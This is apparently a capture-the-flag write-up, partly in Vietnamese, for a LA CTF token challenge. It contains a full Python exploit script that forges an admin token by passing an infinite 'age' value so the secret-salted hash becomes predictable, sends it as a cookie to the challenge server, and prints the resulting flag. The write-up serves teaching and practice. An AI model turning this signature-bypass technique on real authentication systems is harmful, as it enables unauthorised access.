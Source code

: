 ```py
is_admin = 1

token = create_token(
    username="admin",
    age=10e1000,
    role=("admin" if is_admin else "user")
)

print(token)
print(decode_token(token))
```

Result:
```js
7b22757365726e616d65223a202261646d696e222c2022616765223a20496e66696e6974792c2022726f6c65223a202261646d696e222c202274696d657374616d70223a20313730383333363732317d.f400d5c6a0e12fa8cd07adf0c9ee83fc59180dccda337beedcdb6ffd4a206f45
({'username': 'admin', 'age': inf, 'role': 'admin', 'timestamp': 1708336721}, None)
```

Gửi lại `token` này và nhận flag.

![image](https://hackmd.io/_uploads/SJutLjxhp.png)

flag: `lactf{pr3v3nt3d_th3_d0s_bu7_47_wh3_c0st}`

# Script
```python
import hashlib
import json
import os
import time
import requests

secret = int.from_bytes(os.urandom(128), "big")
hash_ = lambda a: hashlib.sha256(a.encode()).hexdigest()
url = "http://jwt.chall.lac.tf"

def create_token(**userinfo):
    userinfo["timestamp"] = int(time.time())
    salted_secret = (secret ^ userinfo["timestamp"]) + userinfo["age"]
    data = json.dumps(userinfo)
    return data.encode().hex() + "." + hash_(f"{data}:{salted_secret}")

is_admin = 1

token = create_token(
    username="admin",
    age=10e1000,
    role=("admin" if is_admin else "user")
)

response = requests.get(url + '/img', headers={ 'Cookie': f'token={token}', })
print(response.text)
```
